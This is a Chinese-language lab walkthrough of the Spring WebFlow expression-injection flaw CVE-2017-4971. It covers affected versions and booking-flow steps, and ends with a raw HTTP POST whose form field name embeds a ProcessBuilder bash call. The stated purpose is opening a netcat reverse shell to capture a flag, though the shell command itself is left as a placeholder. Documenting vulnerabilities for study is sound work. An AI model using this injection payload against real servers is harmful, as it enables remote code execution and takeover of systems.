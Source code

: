 # [Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）by ](./CVE-2017-4971.md)[xiajibaxie](https://github.com/xiajibaxie)

## 一，漏洞描述

 Spring WebFlow 在 Model 的数据绑定由于没有明确指定相关 model 的具体属性导致从表单可以提交恶意的表达式从而被执行，导致任意代码执行的漏洞。

## 二，影响版本

Spring WebFlow 2.4.0 – 2.4.4

## 三，利用流程

1选择左侧用户名登陆

 ![1](./1.jpg)

2访问路径 `/hotels/1` 点击 `Book Hotel` 

![2](./2.jpg)

 3填写相应信息后点击 `Proceed` 

![3](./3.jpg)

4点击 `Confirm` 抓包

![4](./4.jpg)

5将 nc 的反弹 shell 转换成 url 编码

![5](./5.jpg)

6.发送 poc 反弹 shell 获得 flag 

```
POST /hotels/booking?execution=e2s2 HTTP/1.1
Host: 10.10.11.20:43156
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.20:43156/hotels/booking?execution=e2s2
Cookie: JSESSIONID=62C4972DBE024CCE5D86154E13B17537
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 255

_eventId_confirm=&_csrf=13d9614f-d52c-4a5c-be7c-49b1947225a9&_(new java.lang.ProcessBuilder("bash","-c","url转码poc")).start()=vulhub
```

![6](./6.jpg)



## 参考

https://www.jianshu.com/p/ad391cb9a95b

https://paper.seebug.org/322/

